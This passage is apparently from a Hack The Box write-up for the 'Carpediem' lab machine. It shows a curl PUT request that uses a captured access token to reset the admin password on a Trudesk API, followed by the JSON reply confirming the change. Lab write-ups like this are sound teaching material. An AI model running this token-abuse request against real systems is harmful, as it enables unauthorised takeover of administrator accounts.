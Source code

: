 ![](/assets/images/htb-writeup-carpediem/carpediem13.png)

We're not able to bypass the login, so I guess we should focus on the api instead. 


### Step 6
Playing around with the API we have a few options, lets start by trying to change the password of the _admin_ account.
```bash
➜  carpediem curl -X PUT -H "Content-Type: applications/json" -H "accesstoken: 22e56ec0b94db029b07365d520213ef6f5d3d2d9" -d "{"aPass":"aaAA123\!", "aPassconfirm":"aaAA123\!"}" -l http://trudesk.carpediem.htb/api/v1/users/admin  

{"success":true,"user":{"preferences":{"tourCompleted":false,"autoRefreshTicketGrid":true,"openChatWindows":[]},"hasL2Auth":false,"deleted":false,"_id":"623c8b20855cc5001a8ba13c","username":"admin","fullname":"Robert Frost","email":"rfrost@carpediem.htb","role":{"grants":["admin:*","agent:*","chat:*","tickets:*","accounts:*","groups:*","teams:*","departments:*","comments:*","reports:*","notices:*","settings:*","api:*"],"hierarchy":true,"_id":"623c8b20855cc5001a8ba138","name":"Admin","description":"Default role for admins","normalized":"admin","__v":0,"isAdmin":true,"isAgent":true,"id":"623c8b20855cc5001a8ba138"},"title":"Sr. Network Engineer","lastOnline":"2022-04-07T20:30:32.198Z","groups":[]}}% 
```
